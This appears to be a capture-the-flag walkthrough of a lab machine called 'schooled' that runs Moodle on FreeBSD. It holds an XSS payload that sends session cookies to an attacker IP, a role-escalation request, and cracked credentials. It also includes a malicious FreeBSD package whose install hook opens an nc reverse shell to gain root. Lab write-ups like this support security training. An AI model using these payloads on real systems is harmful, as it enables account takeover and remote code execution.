

# schooled


### 05/27/2021

Nmap scan

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```



Exploring source of pages: 

```python
index HTML - OK {
	href="mailto:#">admissions@schooled.htb
	href="#">schooled.htb
	PO Box 16122 Collins Street West Victoria 8007 Australia
	+61 3 8376 628
}

ABOUT.HTML {
All content will be delivered over Moodle.
"We have been providing online education via web delivery since 2002."
}

teachers.HTML {
Jane Higgins - cientific Research Lecturer
Lianne Carter - Manager & English Lecturer
Manuel Phillips - Mathematics Lecturer
Jamie Borham - Information Technology Lecturer

James Fernando - Wonderful Support!
Jacques Philips - Awesome Services!
Venanda Mercy - Great & Talented Team!
James Fernando - Wonderful Support!

}

Contact.HTML {
contact.php

}
```


Scanning for subdomains we found : moodle.


First contact with moodle.


So with this message we can try to get the cookie setting script in MoodleNet profile.


```python
'><sCript>location="http://10.10.14.75:7676?"+document.cookie</sCript>
'></img>

```


We got the Manuel Philips user


Add new quiz and edit the quiz.


I tried this vulnerability but it didn't work.

[https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321)

[https://www.youtube.com/watch?v=BkEInFI4oIU](https://www.youtube.com/watch?v=BkEInFI4oIU)


Request to change user to admin:

Turn your account admin, and create other account.


```python
GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=fUfVLvavYg&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=31&roletoassign=1&startdate=4&duration= HTTP/1.1
Host: moodle.schooled.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Referer: http://moodle.schooled.htb/moodle/user/index.php?id=5
Cookie: MoodleSession=jvdhtb9aockvr2ibrrva9fadf6; MOODLEID1_=%25B5W%25C7%259A%25DB%2505%2501o%25AB
```

Go to another account and click in login as admin. 

Because your account don't have admin login.


I look for admin panel but this profile doesn’t have it, we can try to get administration of other users.


Liane has site administrator privilege.


Create a webshell in a moodle plugin to execute commands:


With error returned I tried install plugin with respective moodle version 3.9


 Web shell: 


Also we can send a normal PHP reverse shell:


Interactive shell:


I explored the database but found nothing.

[http://lastsummer.de/creating-custom-packages-on-freebsd/](http://lastsummer.de/creating-custom-packages-on-freebsd/)

Crack the Jame pass


```python
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW

jame  - !QAZ2wsx
```


[http://lastsummer.de/creating-custom-packages-on-freebsd/](http://lastsummer.de/creating-custom-packages-on-freebsd/)

[https://www.freebsdnews.com/2014/12/31/creating-custom-packages-freebsd-setting-package/](https://www.freebsdnews.com/2014/12/31/creating-custom-packages-freebsd-setting-package/)

Let's try change directory


Don't run, so remove -p


Script to create the PKG and run.

```python
pkg create -m foo/ -r foo/ -o ./
sudo /usr/sbin/pkg install --no-repo-update foo-1.0.txz
```

```python
#!/bin/sh
STAGEDIR=/tmp/package
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}
cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF
# careful here, this may clobber your system
echo “Resetting root shell”
rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc IP PORT >/tmp/a
EOF
cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo “Registering root shell”
pw usermod -n root -s /bin/sh
EOF
cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: “1.0_5”
origin: sysutils/mypackage
comment: “automates stuff”
desc: “automates tasks which can also be undone later”
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF
pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
```


```python
user : 41fa93f918848b200d3e02a5646cd6c5
root : b92b27551b546491d9c80e6fcb2eeea8
```

```python
server info : 
PHP 7.4.15
FreeBSD
prettyPhoto
Bootstrap 4.1.1
jQuery 1.12.4
Modernizr 2.6.2

index HTML - OK {
	href="mailto:#">admissions@schooled.htb
	href="#">schooled.htb
	PO Box 16122 Collins Street West Victoria 8007 Australia
	+61 3 8376 628
}

ABOUT.HTML {
All content will be delivered over Moodle.
"We have been providing online education via web delivery since 2002."
}

teachers.HTML {
Jane Higgins - cientific Research Lecturer
LiHigginsanne Carter - Manager & English Lecturer
Manuel Phillips - Mathematics Lecturer
Jamie Borham - Information Technology Lecturer

James Fernando - Wonderful Support!
Jacques Philips - Awesome Services!
Venanda Mercy - Great & Talented Team!
James Fernando - Wonderful Support!

}

Contact.HTML {
contact.php

}

COOKIES : 
Sid - eaqf9598r31tvpr6cq8362i1u8
Manuel Phillips - vvpj5s0tjh14ju1vi5p2l7ef18

sid
Abc12345678@

<script>location="http://10.10.14.115:7676?"+document.cookie</script>

http://moodle.schooled.htb/moodle/user/edit.php?id=23&course=1

$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2     -    root@localhost
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW     -    jamie@staff.schooled.htb 

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (

/usr/local/share/doc/sudo
/usr/local/bin/sudo
/usr/tests
/usr/local/man/mandoc.db

/usr/local/bin/sqlite3
/usr/include/private/sqlite3
/usr/include/private/sqlite3
/usr/local/bin/mysql
/usr/local/bin/mysqlxtest
/usr/local/bin/mysqltest

/var/run/sudo
/var/db/sudo
/usr/local/bin/sudo
```
